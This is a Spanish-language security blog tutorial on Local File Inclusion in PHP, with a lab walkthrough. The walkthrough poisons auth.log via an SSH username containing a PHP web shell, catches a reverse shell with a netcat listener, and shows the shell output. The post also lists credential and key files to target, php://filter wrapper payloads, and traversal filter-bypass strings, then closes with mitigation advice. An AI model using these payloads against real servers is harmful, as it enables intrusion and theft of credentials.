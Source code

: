 ```yaml
---
date: 2023-07-25T20:00:05.000Z
layout: post
comments: true
title: Local File Inclusion
subtitle: 'ejecución remota de comandos y wrappers'
description: >-
image: >-
    http://imgfz.com/i/yZDLQir.png
optimized_image: >-
    http://imgfz.com/i/yZDLQir.png
category: ciberseguridad
tags: 
  - hacking
  - owasp
  - wrappers
  - lfi
  - rfi
  - remote
  - rce
author: Felipe Canales Cayuqueo
paginate: true
---
```


La inclusión de archivos locales, o Local File Inclusion (LFI), es un tipo de vulnerabilidad de seguridad que permite a un atacante leer archivos del sistema de archivos del servidor. Esto puede ser explotado para proporcionar al atacante acceso a información sensible que de otro modo estaría protegida.

La vulnerabilidad LFI ocurre cuando una aplicación web utiliza la entrada del usuario para construir una ruta de archivo sin suficiente validación de entrada o sin sanitizar la entrada del usuario de manera adecuada. Por ejemplo, si una aplicación web toma un parámetro de la URL y lo usa para abrir un archivo en el servidor, un atacante podría potencialmente manipular ese parámetro para abrir cualquier archivo que desee.

## Caso práctico

Para realizar la comprobación de LFI se puede realizar lo siguiente:

[![lfi2](/images/lfi2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi2.png)

De esta manera, no solo se puede comprobar la existencia de la vulnerabilidad, sino que también se puede descubrir información sobre los usuarios del sistema.

[![lfi3](/images/lfi3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi3.png)

Si no nos permite acceder al ```/etc/passwd``` o queremos probar el acceso a otros directorios o archivos, podemos realizar un fuzzing para verificar el alcance de la siguiente forma con ```wfuzz```, ```gobuster```, entre otros:

[![lfi4](/images/lfi4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi4.png)

> Se pueden probar otros diccionarios como el de [Seclist](https://github.com/danielmiessler/SecLists).

Esto nos permite no solo visualizar alcance sino también identificar posibles directorios que permiten Remote File Inclusion (RFI).

### Remote File Inclusion (RFI)

Si el servidor está mal configurado o la aplicación es especialmente vulnerable, un atacante podría incluso ser capaz de utilizar una vulnerabilidad LFI para ejecutar código en el servidor.

En este caso se encontró el archivo ```auth.log```, el cual se usa típicamente para registrar eventos de autenticación, como inicios y cierres de sesión. Es posible por medio del puerto 22 SSH que se permita la interpretación de código que permita un RFI de la siguiente forma sin necesidad de conocer la contraseña:

```bash
┌─[root@kali]─[/home/user/lfi]
└──╼ ssh '<?php system($_GET['cmd']); ?>'@10.1.1.40  
The authenticity of host '10.1.1.40 (10.1.1.40)' can't be established.
ED25519 key fingerprint is SHA256:h+1ijitcr/kVnfc33XfHyMIJifcp2Vt9He9qc+ph1Xk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.1.1.40' (ED25519) to the list of known hosts.
<?php system($_GET[cmd]); ?>@10.1.1.40's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@10.1.1.40's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@10.1.1.40's password: 
<?php system($_GET[cmd]); ?>@10.1.1.40: Permission denied (publickey,password).
               
```

Una vez realizamos este proceso, podremos ejecutar comandos de la siguiente forma:

[![lfi5](/images/lfi5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi5.png)

Por medio del siguiente siguiente código en php se puede devolver una shell interactiva a nuestra máquina atacante. 

[![lfi6](/images/lfi6.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi6.png)


```bash
┌─[root@kali]─[/home/user/lfi]
└──╼ nc -nlvp 443   
listening on [any] 443 ...                
```

[![lfi7](/images/lfi7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi7.png)


```bash
┌─[root@kali]─[/home/user/lfi]
└──╼ nc -nlvp 443   
listening on [any] 443 ...
connect to [10.1.1.19] from (UNKNOWN) [10.1.1.40] 45112
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ifconfig
enp0s8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.2.11  netmask 255.255.255.0  broadcast 10.1.2.255
        inet6 fd17:625c:f037:2:3680:f705:d998:e4a0  prefixlen 64  scopeid 0x0<global>
        inet6 fd17:625c:f037:2:88c5:fc45:6c92:8fcc  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::9fbf:b0a0:b8de:8388  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:bf:db:0d  txqueuelen 1000  (Ethernet)
        RX packets 576  bytes 70357 (70.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 587  bytes 64426 (64.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s17: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.1.40  netmask 255.255.255.0  broadcast 10.1.1.255
        inet6 fd17:625c:f037:2:e57f:6313:9d59:5f34  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::e5df:32a2:43e5:9c3f  prefixlen 64  scopeid 0x20<link>
        inet6 fd17:625c:f037:2:e563:f97e:6c46:f9ba  prefixlen 64  scopeid 0x0<global>
        ether 08:00:27:bb:ab:38  txqueuelen 1000  (Ethernet)
        RX packets 1249661  bytes 196093620 (196.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1529423  bytes 580271835 (580.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 5577  bytes 550401 (550.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5577  bytes 550401 (550.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

$ 
```

Finalmente obtenemos acceso al sistema por medio del archivo ```auth.log```. 

## Opciones de archivos sensibles al explotar un LFI

Recordar que estos son solo ejemplos y la ubicación y naturaleza exacta de los archivos sensibles pueden variar según el sistema y la configuración.

- `/etc/passwd`: Contiene información sobre cada cuenta de usuario en un sistema Unix o Linux.
- `/etc/shadow`: En sistemas Unix y Linux, este archivo contiene las contraseñas cifradas de los usuarios.
- `/var/log/auth.log`: Archivo de registro de autenticación en muchos sistemas basados en Unix.
- `/etc/hosts`: Puede contener asignaciones personalizadas de nombres de host a direcciones IP.
- `/etc/apache2/apache2.conf` y otros archivos de configuración del servidor web: Pueden revelar información sobre la configuración del servidor web.
- `.htaccess`, `wp-config.php`, y otros archivos de configuración de aplicaciones web: Pueden contener información sensible como contraseñas de bases de datos.
- `~/.ssh/id_rsa`: Este archivo contiene la clave privada de RSA para la autenticación SSH de un usuario.
- `~/.ssh/authorized_keys`: Este archivo puede contener una lista de claves públicas que se permiten autenticar en el sistema.
- Archivos de configuración de la base de datos, como `my.cnf` para MySQL: Estos pueden contener credenciales de base de datos o detalles de la configuración.

## Wrappers

En el contexto de la programación, un "wrapper" o envoltorio es un tipo de función, método o clase que contiene (o "envuelve") un conjunto de instrucciones o un objeto con el objetivo de agregar alguna funcionalidad adicional, ocultar la complejidad o cambiar la interfaz de lo que está envolviendo. En PHP, un "wrapper" puede ser utilizado para indicar el tipo de protocolo que se debe usar para acceder a un archivo o recurso. Por ejemplo, puedes tener "http://" o "ftp://" como wrappers en las rutas de los archivos.

### Ejemplo en base64

```
php://filter/convert.base64-encode/resource=<archivo>

php://filter/read=convert.base64-encode/resource=<archivo>
```

[![lfi1](/images/lfi1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/lfi1.png)

Algunas veces en el payload no es necesario agregar su extensión por ejemplo .php.

## Bypass de filtros

```
....//....//....//....//etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
/..././..././..././..././..././..././..././..././etc/passwd

```

## Recomendaciones

1. **Validación de la entrada**: La entrada del usuario siempre debe tratarse con sospecha. Nunca deberías usar la entrada del usuario directamente en funciones que trabajan con el sistema de archivos sin validarla primero. La validación debe asegurar que la entrada es segura y está dentro de los parámetros esperados.

2. **Limitación del directorio**: Cuando sea posible, limita la inclusión de archivos a un directorio específico y niega el acceso a cualquier otro directorio. Esto puede limitar el alcance de cualquier vulnerabilidad de LFI.

3. **Desactiva la inclusión de archivos remotos**: En PHP, esto puede hacerse configurando `allow_url_include = Off` en el archivo `php.ini`. Esto puede prevenir la inclusión de archivos remotos, lo que puede ser un vector de ataque adicional cuando una vulnerabilidad de LFI está presente.

4. **Uso de listas blancas para la inclusión de archivos**: Si necesitas permitir la inclusión de archivos en función de la entrada del usuario, considera el uso de una lista blanca de archivos permitidos en lugar de depender de la validación de la entrada.

5. **Uso de funciones menos peligrosas**: En lugar de usar funciones como `include` o `require` en PHP, considera el uso de funciones que son intrínsecamente menos peligrosas, como `readfile` o `file_get_contents`, cuando sea apropiado.
